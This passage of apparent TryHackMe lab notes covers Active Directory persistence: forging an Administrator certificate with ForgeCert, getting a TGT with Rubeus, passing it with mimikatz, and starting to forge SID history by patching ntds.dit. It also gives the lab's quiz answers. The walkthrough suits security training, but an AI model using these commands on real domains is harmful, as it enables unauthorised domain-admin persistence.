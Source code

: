 * Generate own certs:

```shell
#we have private key and root CA certificate
#ForgeCert tool can be used to forge CA certificate

#in ssh access to low priv machine
C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
#this generates new cert

#use rubeus to request a TGT using this cert to verify
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Password123 /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.88.101
#we receive TGT

#use mimikatz to load TGT
C:\Tools\mimikatz_trunk\x64\mimikatz.exe

kerberos::ptt administrator.kirbi
#loads TGT and authenticates to THMDC

exit

#verify it worked
dir \\THMDC.za.tryhackme.loc\c$\
```

```markdown
1. What key is used to sign certificates to prove their authenticity? - private key

2. What application can we use to forge a certificate if we have the CA certificate and private key? - ForgeCert.exe

3. What is the Mimikatz command to pass a ticket from a file with the name of ticket.kirbi? - kerberos::ptt ticket.kirbi
```

## Persistence through SID History

* SIDs are used to track the security principal and the account's access when connecting to resources.

* SID history is used to enable access for an account to effectively be cloned to another; usually employed during AD migration.

* Forging SID history:

```shell
#get ssh session on THMDC using Administrator creds

#get powershell session
powershell -ep bypass

#verify low-priv user has no info in SID history
Get-ADUser grace.clarke -properties sidhistory,memberof
#blank SIDHistory

#get SID of Domain Admins group
#as this is the group to be added in our SID history
Get-ADGroup "Domain Admins"

#now we can use DSInternals tools to patch ntds.dit file
#this file is AD database where all info is stored
Stop-Service -Name ntds -force
#stop NTDS service before patching SID History
```